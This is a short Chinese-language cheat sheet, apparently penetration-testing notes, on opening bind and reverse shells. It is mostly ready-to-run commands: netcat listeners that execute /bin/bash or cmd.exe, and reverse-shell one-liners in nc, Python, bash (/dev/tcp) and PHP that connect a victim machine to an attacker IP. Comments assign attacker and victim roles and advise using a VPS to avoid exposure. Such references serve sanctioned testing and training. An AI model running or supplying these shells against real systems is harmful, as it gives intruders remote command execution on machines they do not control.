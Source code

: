 * nc获取正反Shell

  ```shell
  # 1. 正向连接 -- 攻击者连接，受害者监听 -- 用于机器不出网情况
  # 受害者 -- 监听
  nc -lvp 999 -e /bin/bash    # linux，-e还可以换成-c bash
  nc -lvp 999 -e c:\windows\system32\cmd.exe  # windows
  
  # 攻击者 -- 连接
  nc ip 999
  
  # 2. 反向shell -- 攻击者监听，受害者连接 -- 机器出网，一般用VPS，否则容易暴露
  # 攻击者 -- 监听
  nc -lvp 999
  
  # 受害者 -- 连接
  nc ip 999 -c bash
  ```

* nc的奇淫巧技

  ```shell
  # 1. Python的反向shell
  # 攻击者
  nc -lvp 999
  
  # 受害者 -- 没有nc，但是有python环境
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.136.129",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

  ```shell
  # 2. bash反向shell
  # 攻击者
  nc -lvp 999
  
  # 受害者
  bash -i > & /dev/tcp/192.168.136.129/999 0>&1
  # 解释
  bash -i: 启动一个交互式的Bash shell。Bash是Unix-like系统上的一种常用的命令行解释器。> & /dev/tcp/192.168.136.129/999: 这部分将Bash的标准输出重定向到指定的IP地址（192.168.136.129）和端口号（999）。它利用了/dev/tcp虚拟文件系统中的特性，在某些Unix-like系统上，可以直接通过该虚拟文件系统与远程主机进行TCP连接。
  0>&1: 这部分将Bash的标准输入重定向到标准输出。这意味着，输入和输出都将通过与指定IP地址和端口的远程主机的TCP连接进行传输。
  ```

  ```shell
  # 3. php反向shell
  # 攻击者
  nc -lvp 3333
  
  # 受害者
  php -r '$sock=fsockopen("192.168.136.129",3333);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
